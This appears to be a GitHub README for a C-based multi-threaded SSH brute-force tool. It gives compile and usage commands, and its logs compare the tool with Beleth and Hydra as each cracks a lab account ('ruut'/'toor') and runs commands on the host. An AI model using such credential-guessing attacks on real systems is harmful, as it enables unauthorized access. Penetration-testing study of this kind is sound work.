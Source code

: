 # SSH Brute Forcer

A simple, multi-threaded SSH brute force tool designed for basic brute forcing and dictionary-based attacks.

## Features

- **Multi-Threading**:
  - Utilizes multiple threads to attempt concurrent connections, potentially increasing speed.
  - Be cautious: Creating an excessive number of threads (e.g., 1000) can overwhelm the system. This feature is primarily for demonstration purposes and should be used with care.

- **Standard Brute Forcing**:
  - Tests random strings of varying lengths, which is generally inefficient and not recommended for serious use.

- **Dictionary-Based Attacks**:
  - Supports using a list of passwords from a file for more targeted attacks.

## Compile

```
$ cc -o ssh-brute-forcer ssh-brute-forcer.c -I/usr/local/include -L/usr/local/lib -lssh -pthread -Wno-discarded-qualifiers -Wno-incompatible-pointer-types-discards-qualifiers -Wno-unknown-warning-option
```

## Usage

```
$ ./ssh-brute-forcer -h <hostname> -p <port> [-u <username>] [-p <password> | -P <password_list>] [-t <thread_count>] [-V]
```
Parameters

    -h <hostname>: The SSH server’s hostname or IP address.
    -p <port>: The SSH port (default is 22).
    -u <username>: Specific username to test.
    -p <password>: Specific password to test.
    -P <password_list>: Path to a file with a list of passwords.
    -t <thread_count>: Number of threads for concurrent testing (default is 4).
    -V: Verbose mode to display attempted passwords.

Example Commands

    Test a Single Username and Password:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -p mypassword -t 10 -V
```

This command tests the provided username and password using 10 threads and displays the attempted passwords.

Dictionary-Based Attack with a Username and Password List:

```
$ ./ssh-brute-forcer -h 192.168.1.142 -p 22 -u myuser -P pass.list -t 10 -V

```

    This command tests the specified username with all passwords from pass.list using 10 threads, showing attempted passwords.

Note

The brute force method of trying random strings is highly inefficient and not suitable for practical use. Additionally, using a large number of threads can significantly impact system performance and stability. This tool is intended primarily for educational purposes and should be used responsibly.

## Test
## ssh-brute-forcer

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time ./ssh-brute-forcer -h 192.168.1.142 -p 777 -u ruut -P pass.list -t 10 -V
Attempting - Username: ruut, Password: sdf
Attempting - Username: ruut, Password: dg
Attempting - Username: ruut, Password: asd
Attempting - Username: ruut, Password: sdf
Attempting - Username: ruut, Password: asdfa
Attempting - Username: ruut, Password: asdfasdfsad
Attempting - Username: ruut, Password: sadf
Attempting - Username: ruut, Password: ga
Attempting - Username: ruut, Password: asdfg
Attempting - Username: ruut, Password: f
Attempting - Username: ruut, Password: dsf
Attempting - Username: ruut, Password: sad
Attempting - Username: ruut, Password: as
Attempting - Username: ruut, Password: f
Attempting - Username: ruut, Password: df
Attempting - Username: ruut, Password: asdasdf
Attempting - Username: ruut, Password: asd
Attempting - Username: ruut, Password: asdf
Attempting - Username: ruut, Password: fasdgafadf
Attempting - Username: ruut, Password: asdf
Attempting - Username: ruut, Password: toor
Credentials found - Username: ruut, Password: toor

real	1.58s
user	0.01s
sys	0.03s
cpu	2%
```

##beleth

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time beleth -l 10 -t 192.168.1.142 -p 777 -w pass.list -u ruut -v
┌────────────────────────────────────────┐
│                 Beleth                 │
│          www.chokepoint.net            │
└────────────────────────────────────────┘
[*] Read 21 passwords from file.
[*] Starting task manager
[*] Spawning 10 threads
[*] Starting attack on ruut@192.168.1.142:777
[+] (1762) Trying ruut asdfa
[+] (1764) Trying ruut sdf
[+] (1771) Trying ruut asdfg
[+] (1763) Trying ruut dg
[+] (1766) Trying ruut f
[+] (1765) Trying ruut ga
[+] (1770) Trying ruut sdf
[+] (1767) Trying ruut asd
[+] (1768) Trying ruut asdfasdfsad
[+] (1769) Trying ruut sadf
[+] (1771) Trying ruut df
[+] (1766) Trying ruut as
[+] (1764) Trying ruut asd
[+] (1763) Trying ruut f
[+] (1767) Trying ruut asdf
[+] (1765) Trying ruut sad
[+] (1762) Trying ruut fasdgafadf
[+] (1770) Trying ruut asdf
[+] (1768) Trying ruut dsf
[+] (1769) Trying ruut asdasdf
[+] (1770) Trying ruut toor
[*] Cleaning up child processes.
[*] Authentication succeeded (ruut:toor@192.168.1.142:777)
[*] Executing: uname -a && id
[*] Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux
[*] uid=1002(ruut) gid=1002(ruut) groups=1002(ruut)
kt11-1+deb8u2 (2015-07-17) i686 GNU/Linux

real	1.45s
user	0.03s
sys	0.05s
cpu	5%
```

##hydra

```
┌──(root㉿kali)-[~/code/ssh-brute-forcer]
└─# time hydra -s 777 -l ruut -P pass.list  192.168.1.142 ssh -V     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-25 17:41:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 21 login tries (l:1/p:21), ~2 tries per task
[DATA] attacking ssh://192.168.1.142:777/
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfa" - 1 of 21 [child 0] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sdf" - 2 of 21 [child 1] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfg" - 3 of 21 [child 2] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "dg" - 4 of 21 [child 3] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "f" - 5 of 21 [child 4] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "ga" - 6 of 21 [child 5] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sdf" - 7 of 21 [child 6] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 8 of 21 [child 7] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdfasdfsad" - 9 of 21 [child 8] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sadf" - 10 of 21 [child 9] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "as" - 11 of 21 [child 10] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "df" - 12 of 21 [child 11] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 13 of 21 [child 12] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "f" - 14 of 21 [child 13] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdf" - 15 of 21 [child 14] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "sad" - 16 of 21 [child 15] (0/0)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "fasdgafadf" - 17 of 22 [child 3] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdf" - 18 of 22 [child 11] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "dsf" - 19 of 22 [child 0] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asdasdf" - 20 of 22 [child 1] (0/1)
[ATTEMPT] target 192.168.1.142 - login "ruut" - pass "toor" - 21 of 22 [child 2] (0/1)
[REDO-ATTEMPT] target 192.168.1.142 - login "ruut" - pass "asd" - 22 of 22 [child 4] (1/1)
[777][ssh] host: 192.168.1.142   login: ruut   password: toor
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-25 17:41:54

real	1.64s
user	0.05s
sys	0.03s
cpu	4%
```
